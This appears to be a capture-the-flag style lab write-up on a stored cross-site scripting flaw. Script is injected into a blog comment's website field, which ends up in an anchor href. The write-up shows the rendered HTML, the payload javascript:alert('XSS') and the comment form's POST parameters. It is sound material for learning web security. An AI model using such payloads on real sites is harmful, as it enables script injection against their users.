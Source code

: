 ### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

_____

Analysis and Exploit:

1. Post comment, website field "http://test"
```html
<p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">
        <a id="author" href="http://test">test</a> | 24 April 2023
</p>
<p>test</p>
```

2. There is no input constraint on the website field

3. Payload to post, then wait

```html
javascript:alert('XSS')
```


______

Script notes:

1. POST **/post/comment**
    - csrf
    - postId
    - comment
    - name
    - email
    - website